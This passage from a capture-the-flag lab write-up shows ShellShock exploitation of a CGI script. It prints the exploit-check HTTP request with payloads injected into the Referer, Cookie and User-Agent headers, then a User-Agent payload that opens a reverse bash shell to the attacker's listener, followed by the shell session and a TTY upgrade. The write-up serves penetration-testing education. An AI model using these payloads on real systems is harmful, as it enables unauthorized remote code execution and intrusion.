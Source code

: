 I captured that in Wireshark to see what it was doing. The request with the exploit check is:

```

GET /cgi-bin/user.sh HTTP/1.1
Connection: close
Referer: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
Cookie: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
User-Agent: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
Host: 10.10.10.56

```

First, it’s worth noting that technically this is executing code on the scanned machine. So while it’s just an `echo`, it’s still RCE, so it’s worth knowing that and making sure you’re within scope / laws / ethics.

The result is multiple prints of the two strings, showing that ShellShock here is successful in `Referer`, `Cookie`, and `User-Agent`.

### Shell

I’ll start a `nc` listener on tcp 443, and then send the following:

```

User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1

```

The web request hangs, and I get a shell at `nc`:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 45314
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$

```

I’ll get a full shell with the normal trick:

```

shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@parrot$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
                                                                         
shelly@Shocker:/usr/lib/cgi-bin$

```
